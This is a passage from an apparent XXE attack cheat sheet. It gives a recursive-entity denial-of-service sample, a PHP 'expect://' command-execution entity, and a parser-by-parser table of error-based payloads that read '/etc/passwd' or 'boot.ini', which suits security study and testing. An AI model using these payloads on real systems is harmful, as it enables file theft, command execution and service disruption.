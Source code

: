     ```
    <!DOCTYPE data [
    <!ENTITY a "a&b;" >
    <!ENTITY b "&a;" >
    ]>
    <data>&a;</data>
    ```

    <br>

- **RCE**

    Some parsers enables to execute commands from XML entities.

    e.g. for php, if 'expect' [extension](http://pecl.php.net/package/expect) is explicitly installed into php.

    `<!ENTITY xxe SYSTEM "expect://id">`

    <br>

- **error-based injections**

    Exist two types of errors:

    - errors in DTD structure
    - errors in xml schema validation

    (sources: *XML Out-Of-Band Exploitation. Alexey Osipov, Timur Yunusov. 2013*, *XML Out-Of-Band Data Retrieval. Alexey Osipov, Timur Yunusov. 2013*)

    <br>
    Context: `<!ENTITY % pay SYSTEM "file:///etc/passwd">`

    | parser        | Restrictions                  | XXE vector | parser error |
    | --- | --- | --- | --- |
    | MS System.XML | untill first %20, %0d, %0a    | `<!ENTITY % trick "<!ENTITY err SYSTEM 'file:///some'%pay; gif>"> %trick;` ||
    | Xerces        | untill first %20, %0d, %0a    | `<!ENTITY % trick "<!ENTITY :%pay;>"> %trick;` ||
    | Xerces        |                               | `<!ENTITY % trick "<!ENTITY &#37; err SYSTEM '%pay;'>"> %trick; %err;` ||
    | libxml (php)  | ~650 bytes (base64)           | `<!ENTITY % trick "<!ENTITY :%pay;>"> %trick;` ||
    | libxml (php)  | ~900 bytes                    | `<!ENTITY % trick "<!ENTITY &#37; err SYSTEM '%pay;'>"> %trick; %err;` ||
    | ??? (php)     |                               | `<!ENTITY % trick "<!ENTITY &#37; err SYSTEM 'http%pay;:/127.0.0.1/'>"> %trick; %err;` | `DOMDocument::loadXML() [ domdocument.loadxml: Invalid URI: http___ ...` |

    <br>
    ***Xerces schema validation errors examples***:

    `<!DOCTYPE html [ <!ENTITY % foo SYSTEM "file:///c:/boot.ini"> %foo; ]>`

    - parser error : Invalid URI: :[file]
    - I/O warning : failed to load external entity"[file]“
    - parser error : DOCTYPE improperly terminated
    - Warning: *** [file] in *** on line 11


    <div class="spoiler"><div class="spoiler-title" markdown="1">
    ***Possible XML schema validation constraints***:
    </div><div class="spoiler-text" markdown="1">
